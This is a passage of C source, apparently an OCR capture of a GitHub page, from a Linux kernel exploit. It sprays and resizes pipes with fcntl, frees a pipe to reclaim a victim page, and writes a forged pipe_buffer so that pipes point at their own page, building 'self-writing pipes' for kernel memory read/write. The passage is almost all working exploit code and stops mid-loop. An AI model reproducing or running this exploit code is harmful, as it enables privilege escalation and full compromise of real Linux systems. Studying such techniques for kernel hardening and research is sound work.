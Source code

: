 ```c
    /* let the page's ptr at pipe_buffer */
    write(pipe_fd[snd_vicitm_pid][1], buf, TRD_PIPE_BUF_SZ - 24 -3*sizeof(int));

    /* free orignal pipe's page */
    puts("[*] free second-level original pipe...");
    close(pipe_fd[snd_orig_pid][0]);
    close(pipe_fd[snd_orig_pid][1]);

    /* try to rehit victim page by reallocating pipe_buffer */
    puts("[*] fcntl() to set the pipe_buffer on second-level victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }

        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, trd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }

    /* let a pipe->bufs pointing to itself */
    puts("[*] hijacking the 2nd pipe_buffer on page to itself...");
    evil_pipe_buf.page = info_pipe_buf.page;
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.ops = info_pipe_buf.ops;
    evil_pipe_buf.flags = info_pipe_buf.flags;
    evil_pipe_buf.private = info_pipe_buf.private;

    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_2nd_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found self-writing pipe: \033[0m%d\n", 
                    self_2nd_pipe_pid);
            break;
        }
    }

    if (self_2nd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    /* overwrite the 3rd pipe_buffer to this page too */
    puts("[*] hijacking the 3rd pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;

    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
```